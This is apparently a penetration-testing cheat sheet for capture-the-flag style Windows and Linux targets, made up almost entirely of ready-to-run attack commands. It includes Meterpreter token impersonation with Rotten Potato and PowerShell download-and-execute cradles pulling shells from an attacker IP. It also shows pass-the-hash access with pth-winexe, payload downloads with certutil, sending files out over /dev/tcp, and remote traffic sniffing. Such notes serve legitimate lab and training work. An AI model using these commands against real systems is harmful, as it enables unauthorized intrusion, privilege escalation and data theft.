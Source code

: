 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows
### Initial
```
whoami /all
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
```

### Check permission
```
Get-ACL administrator | Fl *
```

### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

### Sniffing
```
ssh 10.10.14.3@10.10.10.119 "tcpdump -i any -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

### port forward
Attacker to victim
```
ssh -L attackerport:127.0.0.1:victimport user@domain
```
Victim to attacker
```
ssh -R attackerport:127.0.0.1:victimport user@attacker
```

### Move file
```
cat file > /dev/tcp/10.10.14.3/1234
```

### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html
